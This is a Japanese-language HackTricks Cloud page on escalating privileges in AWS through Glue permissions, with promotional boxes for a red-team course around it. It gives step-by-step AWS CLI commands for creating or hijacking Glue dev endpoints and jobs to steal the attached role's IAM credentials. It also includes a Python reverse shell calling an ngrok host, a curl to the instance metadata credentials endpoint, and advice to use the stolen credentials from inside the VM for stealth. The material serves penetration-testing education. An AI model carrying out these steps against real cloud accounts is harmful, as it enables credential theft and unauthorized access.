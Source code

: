 # AWS - Glue Privesc

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦で**フォロー**する [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
- **ハッキングトリックを共有するためにPRを提出して** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリに。

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

これらの権限を持つユーザーは、**新しいAWS Glue開発エンドポイントを設定**し、このエンドポイントに特定の権限を持つ既存のサービスロールを**割り当てる**ことができます。

セットアップ後、**攻撃者はエンドポイントのインスタンスにSSHで接続**し、割り当てられたロールのIAM資格情報を盗むことができます。
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
ステルスを目的として、Glue仮想マシン内部からIAM資格情報を使用することを推奨します。

**潜在的な影響:** 指定されたGlueサービスロールへの特権昇格。

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

この権限を持つユーザーは、**既存のGlue開発**エンドポイントのSSHキーを**変更**でき、**SSHアクセスを有効に**できます。これにより、攻撃者はエンドポイントにアタッチされたロールの特権でコマンドを実行できます。
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**潜在的影響:** glueサービスロールへの特権昇格。

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`** と **`glue:CreateJob`または`glue:UpdateJob`** のいずれか、および **`glue:StartJobRun`または`glue:CreateTrigger`** のいずれかを組み合わせたユーザーは、**AWS Glueジョブを作成または更新**し、任意の**Glueサービスアカウント**を添付し、ジョブの実行を開始できます。ジョブの機能には、任意のPythonコードを実行できる能力が含まれており、これを悪用して逆シェルを確立することができます。この逆シェルを使用して、Glueジョブにアタッチされたロールの**IAM資格情報**を外部に流出させ、そのロールの権限に基づいて潜在的な不正なアクセスやアクションを行うことができます。
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**潜在的影響:** 指定されたGlueサービスロールへの特権昇格。

### `glue:UpdateJob`

更新権限だけで攻撃者はすでにアタッチされたロールのIAM資格情報を盗むことができる。

**潜在的な影響:** アタッチされたGlueサービスロールへの特権昇格。

## 参考文献

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)で**フォロー**する。
* **HackTricks**および**HackTricks Cloud**のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
